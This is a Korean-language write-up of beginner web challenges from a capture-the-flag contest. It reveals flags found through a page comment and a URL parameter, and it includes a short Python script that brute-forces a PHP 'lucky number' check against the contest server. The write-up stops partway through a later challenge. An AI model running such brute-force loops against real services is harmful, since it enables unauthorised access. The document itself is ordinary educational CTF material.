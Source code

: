     gwansimbub.html에 들어가서 F12를 눌러서 보면 주석처리 된 것이 있는데 그것이 플래그입니다.

# Show me your ability (web)
![image](https://user-images.githubusercontent.com/36340157/37643655-a1af1182-2c64-11e8-8e46-53f594ec5232.png)

링크에 들어가면 php코드가 나옵니다.(뒤에 나오는 web문제 모두)

![image](https://user-images.githubusercontent.com/36340157/37866119-69dc36be-2fc9-11e8-8d30-6ac0bc9f3711.png)

    주소창에 ?flag=Give me flag 써주면 flag가 나옵니다.
TRUST{you_are_the_greatest_hacker_in_the_world}

# Lucky Number
![image](https://user-images.githubusercontent.com/36340157/37866233-4189da66-2fcb-11e8-9994-1208a2b1fa96.png)

링크에 들어가면 php 코드가 있습니다.

    Try more! 
    <?php

    include(__DIR__."/lib.php");
    // Lucky number is in 0 ~ 9999

    if ($_GET['number'] == $lucky_number)
    {
      echo $flag;
    }

    else 
    {
      echo "Try more! <br>";
    }

    show _source(__FILE__);

    ?>

브루트 포싱해서 알아내었습니다.

    import re
    import urllib
    cont = 0
    for i in range(0, 9999):
      fw=urllib.urlopen("http://dimitrust.oa.to:8080/trustctf/lucky_number/?number=%s"%i)
      read=fw.read()
      flag=re.findall("Try more!", read)
      cont = cont + 1
      if flag:
        print cont
      else:
        print "number is : %d"%i
        break
![luck](https://user-images.githubusercontent.com/36340157/37866269-d3d1dcf2-2fcb-11e8-8dcf-7e4bf14d747c.PNG)
# Do you know php trick?
    no hack <?php
